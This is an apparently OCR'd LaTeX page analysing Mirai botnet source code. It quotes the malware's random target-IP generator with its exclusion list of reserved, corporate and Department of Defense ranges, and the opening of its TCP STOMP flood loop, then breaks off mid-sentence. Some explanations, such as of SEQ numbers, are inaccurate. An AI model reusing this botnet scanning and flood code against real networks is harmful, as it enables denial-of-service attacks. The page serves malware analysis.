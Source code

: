 \documentclass[12pt, letterpaper]{article}
\begin{document}
\begin{sloppypar}
\begin{flushleft}
\begin{verbatim}
        o1 = tmp & 0xff;
        o2 = (tmp >> 8) & 0xff;
        o3 = (tmp >> 16) & 0xff;
        o4 = (tmp >> 24) & 0xff;
    }
    while (o1 == 127 ||                             // 127.0.0.0/8      - Loopback
          (o1 == 0) ||                              // 0.0.0.0/8        - Invalid address space
          (o1 == 3) ||                              // 3.0.0.0/8        - General Electric Company
          (o1 == 15 || o1 == 16) ||                 // 15.0.0.0/7       - Hewlett-Packard Company
          (o1 == 56) ||                             // 56.0.0.0/8       - US Postal Service
          (o1 == 10) ||                             // 10.0.0.0/8       - Internal network
          (o1 == 192 && o2 == 168) ||               // 192.168.0.0/16   - Internal network
          (o1 == 172 && o2 >= 16 && o2 < 32) ||     // 172.16.0.0/14    - Internal network
          (o1 == 100 && o2 >= 64 && o2 < 127) ||    // 100.64.0.0/10    - IANA NAT reserved
          (o1 == 169 && o2 > 254) ||                // 169.254.0.0/16   - IANA NAT reserved
          (o1 == 198 && o2 >= 18 && o2 < 20) ||     // 198.18.0.0/15    - IANA Special use
          (o1 >= 224) ||                            // 224.*.*.*+       - Multicast
          (o1 == 6 || o1 == 7 || o1 == 11 || o1 == 21 || o1 == 22 || o1 == 26 || o1 == 28 
          || o1 == 29 || o1 == 30 || o1 == 33 || o1 == 55 || o1 == 214 || o1 == 215) 
          // Department of Defense
    );

    return INET_ADDR(o1,o2,o3,o4);
}

\end{verbatim}



This loop iterates through the ACK + SEQ numbers that are retrieved. SEQ is the value
sent by a TCP client that specifies the amount of data sent in the session. ACK is the 
value returned by the TCP server that indicates data has been recieved and is ready to
begin the next segment. 
\begin{verbatim}
// Retrieve all ACK/SEQ numbers
for (i = 0; i < targs_len; i++)
{
    int fd;
    struct sockaddr_in addr, recv_addr;
    socklen_t recv_addr_len;
    char pktbuf[256];
    time_t start_recv;

    stomp_setup_nums:

\end{verbatim}

Another important piece of the code is the hardcoding/bypassing taking place that 
implies more security risks. Mirai 



\end{flushleft}
\end{sloppypar}
\end{document}
